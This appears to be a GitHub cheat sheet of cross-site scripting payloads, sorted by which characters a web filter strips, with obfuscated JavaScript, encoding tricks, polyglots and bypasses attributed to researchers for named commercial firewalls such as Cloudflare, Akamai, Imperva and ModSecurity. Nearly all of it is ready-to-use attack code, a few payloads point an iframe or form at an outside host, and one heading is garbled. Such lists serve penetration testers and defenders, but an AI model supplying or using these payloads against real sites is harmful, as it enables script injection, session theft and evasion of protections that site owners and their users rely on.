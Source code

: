 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```js
1) <a href="javascript:alert(1)">Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a href="javascript:{ alert`0` }">Click</a>

4) <a src="google.com" onclick="alert(1)">Click</a>

```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```js
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```js
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" >

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```js
use Unicodes - UTF8 - UTF16 - UTF32
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>

Burp Suite > Convert Selection > HTML > HTML-encode all character
<a href="javascript:alert(1)">Click</a> =
&lt;&#97;&#32;&#104;&#114;&#101;&#102;&#61;&quot;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&quot;&gt;&#67;&#108;&#105;&#99;&#107;&lt;&#47;&#97;&gt;
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```js
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>([,O,B,J,E,C,,]=[]+{},[T,R,U,E,F,A,L,S,,,N]=[!!O]+!O+B.E)[X=C+O+N+S+T+R+U+C+T+O+R][X](A+L+E+R+T+`(1)`)()</script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

6) <a"/onclick=(confirm)()>Click Here!

7) <script>/&/-alert(1)</script>
<script>/&amp;/-alert(1)</script>

8) %00%00%00%00%00%00%00<script>alert(1)</script>     (1.Null bytes are output   2.There is no space character immediately before)

9) <sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`">

10) <bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click 

11) <script>alert.call(null,1)</script>   (alert.call(%20, "XSS");)

12) <script>confirm.call(null,1)</script>

13) <script>prompt.call(null,1)</script>

14) <script>alert.apply(null, [1])</script>

15) <iframe src=//14.rs>

16) <form><button formaction=http://14.rs>Hacked</form>
```

### 4.If space is encoded or deleted
```js
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```js
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```js
SVG, img, iframe 
```
   
### 6.Some WAF bypass:
```js
@vanshitmalhotra | Bypass AWS WAF -// 
Add "<!" (without quotes) before your payload and bypass that WAF. :)
eg: <!<script>confirm(1)</script>

@black0x00mamba | Bypass WAF Akamaighost & filtered onload, onclick, href, src, onerror, script, etc 
<img  sr%00c=x o%00nerror=((pro%00mpt(1)))>

DotDefender WAF bypass by @0xInfection 
<bleh/ondragstart=&Tab;parent&Tab;['open']&Tab;&lpar;&rpar;%20draggable=True>dragme

@LooseSecurity | Updated CloudFlare bypass (bypasses virtually all WAF you'll encounter in the wild):
<iframe/src='%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`'>
Javascript URI cushioned between carriage returns with a non-bracketed prompt.

@daveysec | Was able to bypass Imperva Incapsula WAF with:
<svg onload\r\n=$.globalEval("al"+"ert()");>

@rodolfoassis | Wordfence 7.4.2
<a href=&#01javascript:alert(1)>

rodolfoassis | Sucuri CloudProxy (POST only)
<a href=javascript&colon;confirm(1)>

rodolfoassis | ModSecurity CRS 3.2.0 PL1
<a href="jav%0Dascript&colon;alert(1)">
   
@brutelogic | Cloudflare
<Svg Only=1 OnLoad=alert(1)>
   
<script>{onerror=alert}throw 1</script> -->

<script>eval.call`${'alert\x2823\x29'}`</script>

<img src=x onerror=this.innerHTML=String.fromCharCode(60,105,109,103,32,115,114,99,61,39,120,39,32,111,110,101,114,114,111,114,61,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41,59,39,62)

### 7.Some good stuffs:
https://github.com/Walidhossain010/WAF-bypass-xss-payloads
https://aswingovind.medium.com/content-spoofing-yes-html-injection-39611d9a4057
```

### 7.XSS PolyglotsPolice: revolving allow you to test multiple XSS scenarios with ONE payload.  Work smarter not harder:
![xss](https://user-images.githubusercontent.com/63053441/148800150-58f87374-41ad-4ea8-8887-510c652c7452.jpg)
```js
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

### 8. base64 Encoding payloads
```
btoa('alert(1)') or btoa(alert(1)) // YWxlcnQoMSk=
var a = atob('YWxlcnQoMSk=');eval(a) // alert(1)
```
